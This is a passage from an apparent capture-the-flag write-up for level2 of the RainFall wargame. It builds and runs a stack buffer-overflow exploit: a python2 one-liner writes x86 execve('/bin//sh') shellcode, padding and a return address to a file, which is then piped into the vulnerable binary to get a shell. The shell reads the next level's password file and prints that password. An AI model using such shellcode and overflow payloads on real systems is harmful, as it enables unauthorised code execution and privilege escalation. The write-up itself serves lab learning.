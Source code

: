 exploit = payload + "A" * (80 - 21) + return_address

We use Python to generate the exploit and save it to a file:

```shell
level2@RainFall:~$ python2 -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * (80 - 21)  +  "\x08\xa0\x04\x08"' > /tmp/exploit2
```

## Running the Exploit

We use the `cat` command with the `-` option to keep STDIN open, since the shell executed by the `p` function needs an
interactive terminal to work properly. Once we run our exploit successfully, we can use the `whoami` command to verify
that the shell is running as the `level3` user.

```shell
level2@RainFall:~$ cat /tmp/exploit2 - | ./level2
j
X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
```

## Getting the Password

Finally, we can read the `.pass` file of `level3` to complete the level.

```shell
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We can now log in via SSH as the `level3` user using the password we just found.
